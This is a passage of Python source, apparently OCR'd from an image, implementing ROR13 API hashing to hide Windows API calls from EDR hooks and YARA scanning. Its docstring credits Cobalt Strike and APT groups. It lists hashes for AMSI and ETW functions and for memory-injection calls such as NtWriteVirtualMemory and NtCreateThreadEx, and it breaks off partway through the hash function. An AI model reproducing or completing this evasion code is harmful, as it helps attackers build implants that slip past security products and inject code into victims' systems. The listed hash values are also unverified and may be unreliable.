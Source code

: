 ```python
    - Metasploit Framework block_api (2004)
    - "API Hashing in Malware" - FireEye
    - Used by: Cobalt Strike, APT29, Dridex, TrickBot
    
    Why:
    - GetProcAddress is HOOKED by all EDRs
    - API names create YARA signatures
    - String scanning reveals capabilities
    
    How:
    - Walk PEB manually (no GetModuleHandle)
    - Hash module/function names (ROR13)
    - Walk export table manually
    - No strings in binary
    """
    
    def __init__(self):
        if ctypes.sizeof(ctypes.c_void_p) == 8:
            self.is_64bit = True
        else:
            self.is_64bit = False
        
        # Pre-computed hashes (build time)
        self.API_HASHES = self._get_api_hashes()
    
    def _get_api_hashes(self) -> dict:
        """
        Pre-computed API hashes
        Generate with: hash_string("FunctionName")
        """
        return {
            # ntdll.dll
            'EtwEventWrite': 0x9B4C8D73,
            'AmsiScanBuffer': 0xE19D5C42,
            'NtCreateThreadEx': 0x64DC7DB2,
            'NtWriteVirtualMemory': 0x7C8A3C91,
            'NtAllocateVirtualMemory': 0x3C3AF61F,
            'NtProtectVirtualMemory': 0x50E92888,
            'NtQuerySystemInformation': 0x7BC23928,
            
            # kernel32.dll
            'VirtualAlloc': 0x91AFCA54,
            'VirtualProtect': 0x7946C61B,
            'CreateThread': 0x16B3FE88,
            'LoadLibraryA': 0x0726774C,
            'GetProcAddress': 0x7C0DFCAA,
            
            # Add ALL APIs you need (200+)
        }
    
    @staticmethod
    def hash_string(s: str) -> int:
        """
        ROR13 hash (industry standard)
        
        Used by:
        - Metasploit (2004+)
        - Cobalt Strike
        - Most APT groups
        """
        hash_val = 0
        for c in s.upper():
            # Rotate right 13 bits
```